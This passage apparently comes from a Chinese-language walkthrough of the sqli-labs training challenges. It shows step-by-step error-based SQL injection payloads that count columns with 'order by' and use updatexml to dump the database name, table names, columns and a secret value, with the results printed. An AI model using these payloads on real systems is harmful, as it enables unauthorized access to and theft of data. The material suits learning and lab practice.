 
> 
<h3>3.4、第三步：判断字段数/回显位</h3>
?id=1' order by 3--+
回显正常

 

?id=1' order by 4--+
报错

 说明有3个字段


> 
<h3>3.5、第四步：暴库 </h3>
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+




> 
<h3>3.6、第五步：爆表名</h3>
?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+

表为6t3xc4vvrz



<br/>  

> 
<h3>3.7、第六步：爆字段</h3>
?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='6t3xc4vvrz'),0x7e),1)--+

id,sessid,secret_F8ID,tryy 



> 
<h3>3.9、第八步：爆数据</h3>
?id=1' and updatexml(1,concat(0x7e,(select group_concat(secret_F8ID) from challenges.6t3xc4vvrz),0x7e),1)--+

 
ZaQhcpI5JqrqqNYIzB5UPOPg


 


---


---


## 四、Less59（GET - challenge - Double -5 queries allowed -Variation 2）

> 
<h3>4.1、简介：（报错回显-GET注入-数字型注入） </h3>
请求方法：GET
方法：报错回显+数字型注入
